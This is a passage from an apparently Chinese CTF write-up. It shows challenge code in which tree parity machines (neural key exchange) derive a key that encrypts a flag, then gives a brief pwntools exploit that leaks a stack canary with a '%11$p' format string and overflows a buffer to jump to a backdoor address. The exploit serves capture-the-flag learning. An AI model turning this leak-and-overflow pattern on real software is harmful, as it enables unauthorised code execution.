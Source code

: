 ```python
    alice_taus.append(t1)
    bob_taus.append(t2)
    if t1 == t2:
        Alice.backward(Bob.tau)
        Bob.backward(Alice.tau)

assert np.array_equal(Bob.W, Alice.W)
assert Bob.W.shape == (k, n)
sha256 = hashlib.sha256()
sha256.update(Alice.W.tobytes())
key = sha256.digest()

# another one
k,l,n = 3, 3, 3
Alice = TPM(k, n, l, "rule2")
Bob = TPM(k, n, l, "rule2")

for _ in range(888):
    x = np.random.randint(-25, 26, Alice.n * Alice.k)
    t1 = Alice.forward(x)
    t2 = Bob.forward(x)
    if t1 == t2:
        Alice.backward(Bob.tau)
        Bob.backward(Alice.tau)

assert np.array_equal(Bob.W, Alice.W)
assert Bob.W.shape == (k, n)
sha256 = hashlib.sha256()
sha256.update(Alice.W.tobytes())
iv = sha256.digest()
ct = encrypt(key, iv[:16], flag)
with open("output.py", "w") as f:
    f.write(f"ct = {ct}\n")
    f.write(f"inputs = {inputs}\n")
    f.write(f"alice_taus = {alice_taus}\n")
    f.write(f"bob_taus = {bob_taus}\n")
```

这个参考[这个exp](https://github.com/c0degolf/c0degolf.github.io/blob/9d00b3712c3254d890989beb54e3eb27096cacfa/src/content/posts/writeup/DeadSec%20ctf/deadsec2024.md#not-an-active-field-for-a-reason)，感觉自己也研究的不是很明白，只知道rule1是可以直接回溯的，rule2因为范围是3*3，且每个值的范围在[-3,3]，爆破7**9的可能就行，我脚本不是特别会写，md，以后补(咕咕咕)

## Pwn

### canary

泄露 canary 后直接 ret2backdoor

```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

payload = b"%11$p"
sl(payload)
ru(b"0x")
canary = int(r(len("91bfe76e41f43c00")), 16)
success(hex(canary))
payload = b"a" * 0x28 + p(canary) + b"a" * 8 + p(0x00000000004006F7)
s(payload)
ia()
```